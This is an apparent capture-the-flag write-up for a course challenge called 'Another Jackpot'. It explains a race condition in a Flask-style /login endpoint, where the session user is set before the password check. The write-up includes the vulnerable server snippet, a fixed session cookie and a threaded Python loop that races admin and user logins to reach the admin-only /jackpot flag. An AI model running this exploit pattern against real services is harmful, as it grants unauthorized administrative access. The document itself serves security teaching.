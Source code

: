 # Challenge `Another Jackpot` writeup

- Vulnerability:
  - _Endpoint has a **race condition** vulnerability_
- Where:
  - _`/login` endpoint_
- Impact:
  - _Allows to **login as admin** without actually being admin by trying to login with 2 users at the same time during the same session_

## Steps to reproduce

Before doing the attack, we analyzed the code given `(server.py)`. The following code was found in the `/login`:

```python
# Setup the session with the current user
    current_session = get_current_session()
    current_session.username = username
    db.session.commit()

    registered_user = User.query.filter_by(
        username=username, password=User.hash_pwd(password)).first()
```

Looking at it, we can see that the session is set with **the current user**. Then, only after being set, the user is queried in the database. This means that if we try to login with **2 users at the same time**, the session will be set with the first user, but the query will be done with the second user. 
**So... we can login as the second user, even though we are the first one!**

Taking this into account, we can now start the attack. First we need to open a session in the server `http://mustard.stt.rnl.tecnico.ulisboa.pt:22652`.

Since the server associates a **session token** with its respective user everytime a session is created, to use the same session we set the field `JTOKEN` in the cookies to a constant value previously generated.

```python
session.cookies.set('JTOKEN', '7b2d0d9db004ed2ae29546511ec7de7295c2bca5cdcb1b4a14c860a1353020157231ab36139a2c40fa8946691092f84052426c168d405429b521add3433c31f6', domain="mustard.stt.rnl.tecnico.ulisboa.pt", path='/')
```

Now we have to send data to the server. We will send to the endpoint `/login` the following data:

```python
dataAdmin = {"username": 'admin', "password":'test'}
dataUser = {"username": 'test', "password":'test'}
```
Previously, a user was created by the name `test` with the password `test`. This user will be used to achieve our objective.

Having the data established, the requests will be now sent to the server repeatedly. The following code was used to do so: 

```python
def admin(): 
    r = session.post(SERVER + "/login",data=dataAdmin)
    r = session.post(SERVER + "/login",data=dataAdmin)
    r = session.get(SERVER + "/jackpot")
    if r.text.find('SSof{') != -1:
        print(r.text)

def user(): 
    r = session.post(SERVER + "/login",data=dataUser)
    r = session.get(SERVER + "/jackpot")
    
while True:
    Thread(target=partial (admin,)).start() 
    user()
```

Note: In the admin function, the login is done twice. This is done so we have a better chance at storing the user as `admin`.

Now, after a few loops, when getting the `/jackpot` response since we will be the admin, we will get the `flag`.

## Script
The script used can be found [here](another_jackpot_poc.py)